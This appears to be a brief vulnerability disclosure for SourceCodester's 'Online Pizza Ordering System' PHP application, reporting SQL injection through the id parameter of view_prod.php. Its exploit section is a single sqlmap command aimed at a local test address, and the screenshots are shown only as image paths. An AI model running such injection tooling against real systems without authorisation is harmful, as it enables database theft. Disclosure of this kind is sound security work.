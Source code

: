 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability trigger parameter: $id

The process of vulnerability discovery is as follows：

![image-20230223204548542](C:\markdown\images\image-20230223204548542.png)

exp

```
sqlmap.py -u "http://192.168.31.50/php-opos/view_prod.php?id=1"
```

![image-20230223204651364](C:\markdown\images\image-20230223204651364.png)